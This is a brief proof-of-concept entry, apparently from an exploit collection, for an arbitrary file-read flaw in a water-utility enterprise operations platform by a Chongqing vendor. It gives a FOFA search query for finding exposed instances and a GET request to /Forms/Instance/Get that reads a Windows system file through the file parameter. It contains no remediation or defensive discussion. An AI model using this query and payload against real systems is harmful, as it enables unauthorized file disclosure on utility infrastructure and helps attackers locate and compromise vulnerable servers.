 森鑫炬水务企业综合运营平台 /Forms/Instance/Get 文件读取

fofa

title="森鑫炬水务企业综合运营平台 - S8" || (body="Content/easyui.css" && body="重庆森鑫炬科技有限公司")

poc

GET /Forms/Instance/Get?file=C:/Windows/win.ini